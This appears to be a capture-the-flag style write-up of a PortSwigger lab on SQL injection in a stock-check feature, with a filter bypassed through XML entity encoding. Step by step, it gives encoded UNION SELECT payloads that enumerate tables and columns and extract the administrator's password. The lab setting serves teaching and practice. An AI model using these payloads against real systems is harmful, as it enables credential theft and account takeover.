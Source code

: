 # [Lab: SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

## Lab

This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

## manual

1. capture request:

    ```http
    POST /product/stock HTTP/1.1
    Host: 0ae800bb043cba73c0a290b200fc0011.web-security-academy.net
    ...

    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
    ```

2. Check SQLi, html encode characters:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 O&#82; 1=1-&#45;</storeId></stockCheck>
    ```

3. determining the number of columns:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 ORDER BY 1;</storeId></stockCheck>
    ```

    => response 892 units

    ```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 ORDER BY 2;</storeId></stockCheck>
    ```

    => response 0 units
    => 1 column
4. get table name:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 UNIO&#78; SELEC&#84; TABLE_NAME FROM information_schema.tables;</storeId></stockCheck>
    ```

5. get column names of `users` table:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 UNIO&#78; SELEC&#84; COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = &apos;users&apos;</storeId></stockCheck>
    ```

6. get admin password:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 UNIO&#78; SELEC&#84; password FROM users WHERE username = &apos;administrator&apos;</storeId></stockCheck>
    ```

7. Login to admin account => Lab Solved

## References

sqlmap: <https://www.youtube.com/watch?v=2iqMm0gMyHk&ab_channel=intigriti>
